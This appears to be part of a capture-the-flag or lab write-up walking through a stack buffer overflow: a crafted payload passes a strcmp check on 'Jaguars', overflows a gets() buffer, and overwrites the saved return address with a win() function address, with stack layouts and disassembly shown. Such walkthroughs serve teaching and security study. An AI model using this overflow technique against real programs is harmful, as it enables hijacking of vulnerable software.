 
---

## Execution Flow

### Step 1: Send Payload

```
Payload sent:
"AAAAAAJaguars\0" + "AAA...AAA" (90 bytes) + 0 + win_addr
```

### Step 2: gets() Reads Input

```c
gets(buffer);  // Reads all 120 bytes!
```

**Stack after overflow:**
```
buffer[0-5]:    "AAAAAA"
buffer[6-13]:   "Jaguars\0"
buffer[14-103]: "AAA...AAA"
saved RBP:      0x0000000000000000
return addr:    0x00000000004011f6 (win)
```

### Step 3: strcmp Check

```c
strcmp(buffer + 6, "Jaguars")
```

**Comparison:**
```
buffer[6] onwards: "Jaguars\0AAA..."
Expected:          "Jaguars\0"

Match up to \0: YES! ✓
strcmp returns 0
```

Check passes! Program continues (doesn't exit).

### Step 4: vuln() Returns

```asm
4012d9:	leave
4012da:	ret
```

**leave executes:**
```
mov rsp, rbp         ; RSP = RBP
pop rbp              ; RBP = 0 (our overwritten value)
                     ; RSP now points to return address
```
